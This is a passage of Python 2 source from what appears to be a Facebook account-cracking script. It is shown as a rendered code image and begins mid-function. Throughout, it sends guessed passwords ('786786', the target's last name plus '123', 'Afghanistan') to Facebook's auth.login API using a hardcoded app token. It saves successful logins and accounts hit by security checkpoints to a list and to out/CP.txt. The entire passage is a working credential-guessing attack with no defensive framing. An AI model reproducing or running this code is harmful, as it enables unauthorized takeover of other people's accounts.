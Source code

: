 											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = '786786'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass5 + ' 👽 ' + b['name']
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass5 + ' 👽 ' + b['name']
													cek = open("out/CP.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['last_name'] + '123'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass6 + ' 👽 ' + b['name']
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass6 + ' 👽 ' + b['name']
															cek = open("out/CP.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															pass7 = 'Afghanistan'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']
																	cek = open("out/CP.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
		except:																		
			pass
		